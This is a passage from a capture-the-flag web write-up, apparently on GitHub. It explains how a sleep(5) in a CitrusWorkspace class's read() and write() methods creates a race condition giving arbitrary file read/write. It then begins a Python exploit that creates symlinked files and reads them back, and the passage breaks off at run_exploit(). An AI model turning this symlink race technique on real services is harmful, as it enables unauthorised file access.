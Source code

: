 ok now the second bug : 

the sleep(5) introduced in the 2 functions of *read()* and *write()* of the CitrusWorkspace class can lead to a race condition which allow us to have an arbitrary file R/W primitive

![alt text](../ctf-web/hkimages/image-7.png)

```python
#!/usr/bin/env python3

import requests
import time
from concurrent.futures import ThreadPoolExecutor

class Exploit:
    def __init__(self, url):
        self.url = url
        self.session = requests.Session()
        self.session.get(url)

    def create_file(self, filename, target_file):
        data = {
            'mode': 'create',
            'filename': filename,
            'symlink': '1',  
            'target': target_file
        }
        return self.session.post(self.url, data=data)

    def read_file(self, filename):
        data = {
            'mode': 'read',
            'filename': filename
        }
        return self.session.post(self.url, data=data)

    def run_exploit(self):
```